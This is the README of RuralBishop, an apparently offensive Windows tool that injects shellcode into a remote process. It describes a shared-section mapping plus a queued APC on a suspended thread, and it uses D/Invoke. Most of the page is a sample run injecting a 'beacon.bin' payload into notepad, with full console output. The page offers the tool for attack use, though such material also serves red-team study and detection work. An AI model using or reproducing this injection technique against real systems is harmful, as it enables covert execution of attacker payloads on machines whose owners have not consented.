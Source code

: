 # RuralBishop

RuralBishop is practically a carbon copy of [UrbanBishop](https://github.com/FuzzySecurity/Sharp-Suite/tree/master/UrbanBishop) by b33f, but all [P/Invoke](https://docs.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke) calls have been replaced with [D/Invoke](https://thewover.github.io/Dynamic-Invoke/).

This creates a local RW section in RuralBishop and then maps that section as RX into a remote process. Once the shared section has been established the shellcode is written to the local section which then automatically propagates to the remote process. For execution RuralBishop creates a remote suspended thread (start address is set to `ntdll!RtlExitUserThread`) and queues an APC on that thread.  Once resumed with `NtAlertResumeThread`, the shellcode executes and the thread exits gracefully on completion.

```
C:\> RuralBishop.exe -p C:\Users\Rasta\Desktop\beacon.bin -i 14680
   _O        _____             _
  / //\     | __  |_ _ ___ ___| |
 {     }    |    -| | |  _| .'| |
  \___/     |__|__|___|_| |__,|_|
  (___)
   |_|          _____ _     _
  /   \        | __  |_|___| |_ ___ ___
 (_____)       | __ -| |_ -|   | . | . |
(_______)      |_____|_|___|_|_|___|  _|
/_______\                          |_|
                  ~b33f~  ~rasta~

|--------
| Process    : notepad
| Handle     : 696
| Is x32     : False
| Sc binpath : C:\Users\Rasta\Desktop\beacon.bin
|--------

[>] Creating local section..
    |-> hSection: 0x2B4
    |-> Size: 261120
    |-> pBase: 0xC30000
[>] Map RX section to remote proc..
    |-> pRemoteBase: 0x1E5D86C0000
[>] Write shellcode to local section..
    |-> Size: 261120
[>] Seek export offset..
    |-> pRemoteNtDllBase: 0x7FFC44BA0000
    |-> LdrGetDllHandle OK
    |-> RtlExitUserThread: 0x7FFC44C0A2A0
    |-> Offset: 0x6A2A0
[>] NtCreateThreadEx -> RtlExitUserThread <- Suspended..
    |-> Success
[>] Set APC trigger & resume thread..
    |-> NtQueueApcThread
    |-> NtAlertResumeThread
```